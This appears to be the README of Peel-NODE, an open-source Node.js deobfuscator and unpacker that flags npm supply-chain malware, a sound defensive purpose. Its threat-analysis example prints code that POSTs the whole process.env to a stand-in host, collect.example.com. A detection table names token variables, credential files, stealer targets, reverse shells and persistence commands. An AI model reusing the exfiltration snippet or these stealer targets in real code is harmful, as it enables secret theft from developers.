





<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="public/peel-logo-horizontal-dark-3000.png">
    
  </picture>
</p>

<p align="center">
  <b>Unpack Node.js executables and packages, then peel the obfuscation off the code inside.</b><br>
  Open source · MIT · free forever · your code never leaves your device
</p>

<p align="center">
  <a href="README.tr.md">Türkçe</a> ·
  <a href="#quick-start">Quick start</a> ·
  <a href="#examples">Examples</a> ·
  <a href="#features">Features</a> ·
  <a href="#command-line">CLI</a> ·
  <a href="#how-it-works">How it works</a> ·
  <a href="https://github.com/LLCForge/Peel-JS">Peel-JS</a>
</p>

<p align="center">
  
</p>

---

## What is Peel-NODE?

Peel-NODE is a deobfuscator and package unpacker for Node.js code. Give it an obfuscated `.js` file, an npm tarball,
an Electron `app.asar`, or an executable built with pkg, nexe or Node SEA. It opens the container in memory, finds every
script inside, deobfuscates each one and tells you what the code does on a Node machine.

It is a fork of [Peel-JS](https://github.com/LLCForge/Peel-JS), the browser-focused sibling project, and keeps its engine.
What Peel-NODE adds is everything Node-specific:

- **It opens Node packages.** pkg, nexe and Node SEA executables (PE, ELF and Mach-O), npm `.tgz` tarballs, Electron `.asar`
  archives and `.zip` files are unpacked in memory, with nothing written to disk. Entry points, `package.json` `main` / `bin`
  and install scripts are marked. V8 bytecode (bytenode `.jsc`, pkg's default mode) cannot be turned back into source;
  Peel-NODE says so and extracts the header and the readable strings instead.
- **It runs the code in an emulated Node.js.** The QuickJS sandbox gets `require`, `process`, `Buffer`, `fs`, `child_process`,
  `net`, `http(s)`, `dns`, `os`, `vm` and `worker_threads` stand-ins. Nothing real is touched: they only record what the code
  tried to do. Environment detection is automatic (`--env auto|node|browser`).
- **It unwraps Node loaders.** `eval`, `vm.runInThisContext`, `new vm.Script(...)`, `Function(...)`, `module._compile` and
  `require` of a file the program wrote itself are replaced with the code they run, but only when a second run with different
  environment, files, argv, clock and randomness produces exactly the same code.
- **It tells you what the code would do to a machine.** The threat report knows npm supply-chain attacks: install-script abuse,
  environment and token theft, credential files, Discord and browser stealers, crypto clippers, reverse shells, droppers,
  persistence, typosquatting, dependency confusion and known malware families.
- **It still proves its own changes.** Every pass is followed by a re-parse and a behaviour check in the sandbox. A pass that
  changes what the program does is rolled back.

Everything runs locally: the web app, the CLI and the library. There is no server, no telemetry and no upload.

## Quick start

You need Node.js 20 or newer.

```bash
git clone https://github.com/LLCForge/Peel-NODE.git
cd Peel-NODE
npm install
```

Command line:

```bash
node bin/peel-node.js obfuscated.js -o clean.js
node bin/peel-node.js app.exe --out-dir out          # pkg / nexe / SEA executable
node bin/peel-node.js package.tgz --out-dir out --report out/report.json
```

Web interface:

```bash
npm run dev
```

Open <http://localhost:5173>. Paste code, drop a `.js`, `.jsc`, `.tgz`, `.asar`, `.zip` or `.exe` file onto the page,
or click **Try a sample**, then press **Peel** (`Ctrl + Enter`). `npm run build` produces a static site in `dist/`
that you can host anywhere or open offline.

## Screenshots

<table>
  <tr>
    <td width="50%"><br><sub><b>Start screen.</b> Paste code or drop a script, a package or an executable.</sub></td>
    <td width="50%"><br><sub><b>Input.</b> The built-in sample: a base64 string table, an <code>eval</code> layer and a <code>zlib</code> layer.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Report.</b> Threat score, runtime effects, detected tool, metrics and network calls.</sub></td>
    <td><br><sub><b>Timeline.</b> Scrub through the code after every pass and round.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Diff.</b> What changed between the input and the output.</sub></td>
    <td><br><sub><b>Command palette.</b> Every action, searchable (<code>Ctrl + Shift + P</code>).</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Tools.</b> Compare versions, history, sharing, archives, rules and plugins, lessons.</sub></td>
    <td><br><sub><b>Settings.</b> Appearance, editor, code layers, layout and formatting.</sub></td>
  </tr>
</table>

<p align="center">
  <br>
  <sub>The interface also works on a phone.</sub>
</p>

## Examples

All outputs below were produced by the CLI (`peel-node input.js --lang en`) with default settings.

### The built-in sample

The **Try a sample** button loads a harmless Node.js snippet: a base64 string table, a base64 `eval` layer, and inside it
a `zlib.inflateSync` + base64 layer that builds its message with `String.fromCharCode`.

```js
// Peel-NODE örnek girdisi
var _0x5a = ['YmFzZTY0', 'dXRmOA=='];
function _0xd(_0xi) { return Buffer.from(_0x5a[_0xi], 'base64').toString(); }
eval(Buffer.from('ZXZhbChyZXF1aXJlKCd6bGliJykuaW5mbGF0ZVN5bmMoQnVmZmVyLmZyb20oJ2VKeE5qVXRM…', _0xd(0x0)).toString(_0xd(0x1)));
```

Peel-NODE output:

```js
if (process.env.PEEL_NEVER_SET === "1") {
  console.log("dead");
}
// Peel-NODE örnek girdisi

var _0xg = "Peel-NODE";
console.log(_0xg + ": merhaba, " + require("path").basename("/tmp/sample.js"));
```

Both layers are gone. The `if` stays on purpose: it depends on an environment variable, so removing it would change
behaviour on a machine where that variable is set.

### Node loaders

| Input | Output |
|---|---|
| `require("vm").runInThisContext(Buffer.from("Y29uc29sZS5sb2coImhpIik=","base64").toString());` | `console.log("hi");` |
| `new Function(Buffer.from("Y29uc29sZS5sb2cocHJvY2Vzcy5wbGF0Zm9ybSk=","base64").toString())();` | `console.log(process.platform);` |
| `module._compile(Buffer.from("bW9kdWxlLmV4cG9ydHMgPSA0Mjs=","base64").toString(), __filename);` | `(function (exports, require, module, __filename, __dirname) { module.exports = 42; }).call(module.exports, module.exports, require, module, __filename, __dirname);` |
| `eval(atob("Y29uc29sZS5sb2coImhpIik="))` | `console.log("hi");` |
| `if(!![]){console.log("live")}else{console.log("dead")}` | `console.log("live");` |

### Threat analysis

```js
var _0x=["aHR0cHM=","Y29sbGVjdC5leGFtcGxlLmNvbQ==","UE9TVA=="];function d(i){return Buffer.from(_0x[i],"base64").toString()}
var r=require(d(0)).request({host:d(1),method:d(2),path:"/e"});r.end(JSON.stringify(process.env));
```

becomes

```js
var r = require("https").request({
  host: "collect.example.com",
  method: "POST",
  path: "/e",
});
r.end(JSON.stringify(process.env));
```

and the report classifies it as `env-exfil` (score 60, confidence high). The evidence combines the static match
(the whole `process.env` is read) with what the emulated runtime recorded: 25 environment variables read, then a
`POST https://collect.example.com/e` carrying them. Overall risk: 62, medium.

## Features

Peel-NODE has **58 passes**: the 57 from Peel-JS plus `node-layers`, which unwraps Node loaders. The analysis modules are shared.

### Containers and packages

| Format | What Peel-NODE does |
|---|---|
| **pkg** (vercel/pkg, @yao-pkg/pkg) | Finds the prelude and the virtual file system, restores dictionary-compressed paths, reads gzip and brotli payloads, marks the entry point. Files stored as V8 bytecode (pkg's default) are reported with their header, strings and IOCs. |
| **nexe** | Reads the sentinel trailer, the bootstrap content and the resources (nexe 5 ZIP format; the older resource table is supported but not verified against real output). |
| **Node SEA** | Finds the `NODE_SEA_BLOB` in PE, ELF or Mach-O, reads flags, the main script, the code cache and `sea.getAsset` assets, and reports the fuse state. Snapshot builds (`useSnapshot`) contain no source: only strings are extracted. |
| **bytenode `.jsc`** | Parses the V8 code-cache header (version hash, source length, flags) and extracts ASCII and UTF-16 strings, URLs, IPs and shell commands. **Cannot be decompiled**, only strings. |
| **npm `.tgz`** | Unpacks the tarball, reads `package.json`, marks `main`, `bin` and the files run by `preinstall` / `install` / `postinstall` / `prepare`, and notes an implicit `node-gyp rebuild` from `binding.gyp`. |
| **Electron `.asar`, `.zip`** | Unpacks the archive, marks the main-process entry from `package.json`, lists files kept in `app.asar.unpacked`. |

The formats were checked against real tool output: @yao-pkg/pkg 6.25, nexe 5.0.0-beta.4, Node 25.8 SEA (postject),
bytenode on Node 25, `npm pack` and @electron/asar. The sample files are in [`test/node-samples/`](test/node-samples).

### Node threat analysis

Classes come from three sources: the static text of the deobfuscated output, the effect log of the emulated Node runtime,
and the unpacked `package.json`. Each class carries its evidence and a confidence level. A runtime observation raises the confidence.

| Class | What it looks for |
|---|---|
| `npm-lifecycle` | install scripts, and whether this file is the one they run; downloads, `eval`, base64 or pipes to a shell raise the score |
| `env-exfil` | the whole `process.env` or secret-looking variables (`NPM_TOKEN`, `GITHUB_TOKEN`, `AWS_*`, `*_SECRET` …) together with network access |
| `credential-files` | `.npmrc`, `.ssh`, `.aws`, `.git-credentials`, `.netrc`, Docker and kube config, gcloud |
| `discord-token-stealer`, `browser-stealer` | Discord token storage and patterns; browser profiles together with `Login Data`, `Local State`, cookies, `key4.db` |
| `crypto-clipper`, `wallet-stealer` | clipboard access together with wallet-address regexes; wallet files and extension IDs |
| `reverse-shell` | raw socket + shell process + stream piping between them |
| `dropper` | download, then file write, then execution; at runtime the order is checked too |
| `persistence` | Startup folder, `reg add … Run`, `schtasks /create`, cron, launchd, systemd, shell rc files |
| `anti-analysis`, `host-recon` | VM / sandbox / debugger checks; many system-info reads with network access |
| `node-exec`, `chat-exfil` | `child_process` use; Discord webhooks and Telegram bot URLs |
| `typosquatting`, `dependency-confusion` | a package name one edit away from a popular package; an unusually high major version |
| `known-family` | markers from published analyses of event-stream, ua-parser-js, coa / rc, node-ipc, Shai-Hulud and s1ngularity / Nx |

These are heuristics with evidence, not a verdict.

### Supported obfuscators

Everything Peel-JS handles works here, because the engine is the same:

| Tool / technique | What Peel-NODE undoes |
|---|---|
| **javascript-obfuscator / obfuscator.io** | String arrays (none / base64 / RC4), rotation, wrappers, proxies, control-flow flattening, dead code, self-defending, debug protection; the settings used are reported back |
| **js-confuser** | `Function()` packing, RGF, dispatcher, flattening, string compression and concealing, `length` spoofing, opaque predicates, integrity locks |
| **Node loaders** | `eval`, `vm.runInThisContext` / `runInNewContext` / `vm.Script`, `Function`, `module._compile`, `require` of a written file |
| **Bundles** | webpack and esbuild (including Node targets), browserify, Parcel, ncc are detected; `--split` writes modules as files |
| **Packers and encoders** | Dean Edwards packer, JSFuck, AAEncode, JJEncode, base64 / hex / XOR / gzip / deflate chains |
| **Bytecode VMs** | Detected and disassembled, lifted to readable code where the interpreter can be identified |
| **Babel and TypeScript output** | Helpers, `regenerator` state machines and classes turned back into modern syntax |

Commercial protections such as JScrambler are **only recognised, not undone**.

### Report and interface

- Detected obfuscator and bundler with evidence, including pkg, nexe, SEA and bytenode traces in plain JS
- IOCs: domains, URLs, IPs, wallets, Discord webhooks, Telegram bots, download and paste hosts; secrets masked on export
- YARA and Suricata rules, SARIF 2.1.0, an incident-response report and JSON export
- CodeMirror editors, tabs and project groups (an unpacked package opens as a group, entry points first), timeline, diff,
  command palette, five languages (English, Türkçe, Deutsch, Español, العربية) and a mobile layout

## Command line

```bash
node bin/peel-node.js obfuscated.js -o clean.js --report report.json
cat obfuscated.js | node bin/peel-node.js - > clean.js
node bin/peel-node.js app.exe --out-dir out --sarif out/peel.sarif
node bin/peel-node.js lib/ --out-dir out --fail-on high
```

Install it globally with `npm link` and use `peel-node` instead of `node bin/peel-node.js`.

For a container, the output folder gets `<name>.unpacked/` with the original folder structure and `<name>.unpack.json`
with the format, metadata and notes. Every script inside is deobfuscated and analysed with its package context.

| Option | |
|---|---|
| `-o, --out` / `-d, --out-dir` | output file, or output folder for batch mode and containers |
| `-r, --report`, `--sarif`, `--html`, `--incident` | JSON report, SARIF 2.1.0, standalone before/after HTML, incident-response Markdown |
| `--env <auto\|node\|browser>` | sandbox environment; `auto` uses the Node emulation when it sees Node signs |
| `-m, --source-map`, `--out-map` | recover names from a source map; write a map from the output back to the input |
| `-s, --split <dir>` | write the modules of a webpack, esbuild, browserify or Parcel bundle as separate files |
| `-p, --profile`, `-l, --level` | pass profile (`all`, `auto` or a tool name) and level 1–4 |
| `--order-search`, `--cascade` | try several pass orders and keep the best verified result; or peel level by level |
| `--vm-out <dir>`, `--jsvmp` | dump bytecode, assembly, IR and lifted code for bytecode VMs |
| `--git <dir>` | create a git repository with one commit per pass |
| `--rules`, `--plugin`, `--trust` | transformation rules, plugins, and Ed25519 keys to trust for signed plugins |
| `--fail-on <level>` | exit with code 4 if the risk reaches `low`, `medium` or `high` (for CI) |
| `--no-sandbox`, `--no-deep` | static passes only; or skip the per-pass behaviour check |
| `--lang <tr\|en>` | language of the code comments and the HTML report |
| `-w, --watch`, `-q, --quiet`, `--json` | watch for changes, silence logs, print results as JSON |

Subcommands (`peel-node <command> --help`): `diff`, `track`, `history`, `serve`, `bot`, `asar`, `symbols`, `share`,
`unshare`, `plugin`, `explain`, `techniques`, `learn`, `ctf`, `obfuscate`, `anonymize`, `changelog`, `passes`, `asm`, `vm-compare`.

Exit codes: `0` ok, `1` error, `2` usage, `3` changed (`track --once`), `4` risk threshold reached.

## Library

```bash
npm install github:LLCForge/Peel-NODE
```

```js
import { peel } from 'peel-node';

const { code, report, verified } = await peel(obfuscatedSource, { env: 'node' });
console.log(code);                        // readable code
console.log(verified);                    // true if every change was behaviour-checked
console.log(report.threat.classes);       // [{ id: 'env-exfil', score: 60, confidence: 'high', evidence: […] }]
console.log(report.threat.node.iocs);     // { discordWebhooks, telegram, downloads, pastes }
```

The unpackers live in [`src/node/unpack.js`](src/node/unpack.js) (`unpack(bytes, name)`) and work in the browser and in Node.
TypeScript types are included. `npm run build:lib` builds a single-file ESM bundle.

## Integrations

| | |
|---|---|
| **GitHub Action** | [`action.yml`](action.yml): `uses: LLCForge/Peel-NODE@main` with `files: dist/**/*.js`; runs `bin/peel-node.js`, writes SARIF and a step summary, fails on a risk level |
| **REST API, bots** | `peel-node serve` (bearer token, `127.0.0.1` only) and `peel-node bot` (Slack / Discord, signature checks) |
| **Editors and tools** | [`extensions/`](extensions): VS Code, mitmproxy, Burp Suite, Jupyter, Observable, Semgrep; carried over from Peel-JS |
| **Desktop** | [`src-tauri`](src-tauri): a Tauri app |

## How it works



| Folder | Contents |
|---|---|
| `src/node/` | unpackers (`unpack.js`), V8 code-cache reader (`v8cache.js`), Node threat analysis (`threat.js`) |
| `src/passes/` | the 58 passes, including `38-node-layers.js` |
| `src/sandbox/` | QuickJS host, browser stubs, Node emulation (`node-stubs.js`), environment detection, watchdog |
| `src/core/` | pipeline, parsing, detection, encodings, crypto, threat analysis, VM lifting |
| `src/analysis/`, `src/opt/`, `src/symbolic/` | CFG, data flow, SSA, solver, symbolic and concolic execution |
| `src/naming/`, `src/ui/` | renaming and type inference; the web interface |
| `src/cli/`, `src/server/`, `bin/` | the `peel-node` CLI, REST API and bots |
| `test/` | fixtures, Node samples, unit tests and the benchmark |

## Safety model

- Untrusted code runs only inside QuickJS (WebAssembly) in a worker (`worker_thread` in Node) with a memory cap,
  an interrupt deadline and a watchdog that restarts a hung engine.
- The Node emulation is fake by design: `fs`, `child_process`, `net`, `http` and friends only record calls.
  `process.env` holds fixed, secret-free system variables, never yours.
- Containers are parsed from bytes in memory. Nothing from an archive or executable is written to disk unless you ask for
  `--out-dir`, and unpacked executables are never run.
- The test suite includes 18 sandbox-escape attempts, all of which must fail.

## Honest limits

- **V8 bytecode is out of reach.** bytenode `.jsc` files, pkg files compiled to bytecode and SEA snapshots give strings and IOCs, not source.
  Only one V8 version hash is in the known table (V8 14.1, Node 25.8); others are shown as a raw hash.
- pkg payloads compressed with zstd are not supported. The SEA `execArgv` list is not parsed. The older nexe resource table
  has not been checked against real output.
- Threat classes are heuristics. The evidence strings in the report are in Turkish for now, whatever `--lang` says.
- The behaviour check compares console output and observable side effects; values resolved by observing one run cover only
  the paths that run took.
- The extensions under `extensions/` were inherited from Peel-JS and still refer to the `peel-js` package name.
- Commercial protections such as JScrambler are recognised but not undone.

## Tests

```bash
npm test          # 173 fixtures through the whole pipeline with behaviour checks, then 42 unit test files
npm run bench     # 131 obfuscated samples: output must behave the same and contain the expected strings
```

The unpackers are tested against real pkg, nexe, SEA, bytenode, npm, asar and zip outputs in
[`test/node-samples/`](test/node-samples) (stored XOR-encoded so antivirus tools do not flag them on disk).

## Contributing

Issues and pull requests are welcome. If you have a package or executable Peel-NODE does not handle, please open an issue
with a small, harmless reproduction. `peel-node anonymize sample.js` removes strings and names that could identify the source.
A pull request that adds a fixture proving the fix is the fastest way to get it merged.

## License

[MIT](LICENSE). Free to use, change and redistribute, including commercially. There is no paid tier, no account and no telemetry.
